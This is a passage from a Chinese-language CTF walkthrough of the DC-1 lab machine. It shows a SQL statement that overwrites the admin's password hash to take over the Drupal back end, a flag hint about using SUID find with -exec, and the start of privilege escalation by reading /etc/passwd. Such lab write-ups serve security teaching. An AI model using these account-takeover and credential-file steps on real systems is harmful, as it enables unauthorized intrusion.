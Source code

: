 接着就直接替换掉原密码

```mysql
UPDATE users SET pass='$S$D8RRzdsLf1t4pNNXAHulu4XGwq.ZmbVOJaQsgF.5rYSNiweMM1ko' WHERE uid = 1;
```

成功进入管理员后台 发现flag3

![image-20240206105833484](assets/DC-1/flag3.png)

```
FLAG3: Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.
查看flag3后，关注点放到passwd文件和shadow文件。Linux为了考虑安全性，用单独的shadow文件存储Linux用户的密码信息，并且只有root用户有权限读取此文件。所以下一步，我们要考虑的是提权了。
```

---

# flag4：后期：后渗透提权

```bash
cat /etc/passwd
```
